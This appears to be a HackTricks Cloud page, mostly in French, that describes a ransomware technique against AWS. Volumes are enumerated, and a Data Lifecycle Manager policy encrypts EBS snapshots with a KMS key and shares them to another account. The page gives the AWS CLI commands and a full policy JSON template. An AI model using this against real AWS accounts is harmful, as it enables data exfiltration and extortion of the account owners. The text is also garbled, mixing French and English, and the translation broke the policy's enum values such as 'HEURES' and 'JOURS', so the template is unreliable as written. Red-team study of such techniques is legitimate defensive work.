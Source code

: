 # AWS - Gestionnaire de cycle de vie des données

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Gestionnaire de cycle de vie des données (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Une attaque par ransomware peut être exécutée en chiffrant autant de volumes EBS que possible, puis en effaçant les instances EC2 actuelles, les volumes EBS et les instantanés. Pour automatiser cette activité malveillante, on peut utiliser Amazon DLM, chiffrer les instantanés avec une clé KMS d'un autre compte AWS et transférer les instantanés chiffrés vers un compte différent. Alternativement, ils pourraient transférer des instantanés sans chiffrement vers un compte qu'ils gèrent, puis les chiffrer là-bas. Bien qu'il ne soit pas directement possible de chiffrer les volumes EBS ou les instantanés existants, il est possible de le faire en créant un nouveau volume ou instantané.

Tout d'abord, on utilisera une commande pour recueillir des informations sur les volumes, telles que l'ID de l'instance, l'ID du volume, l'état de chiffrement, l'état de l'attachement et le type de volume.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```plaintext
aws dlm create-lifecycle-policy --description "Ma première politique" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "GESTION_DES_SNAPSHOTS_EBS",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "CléExemple",
"Value": "ValeurExemple"
}
],
"Schedules": [
{
"Name": "SnapshotsQuotidiens",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "CréateurDuSnapshot",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CentreDeCoût",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HEURES",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HEURES"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "JOURS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "JOURS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
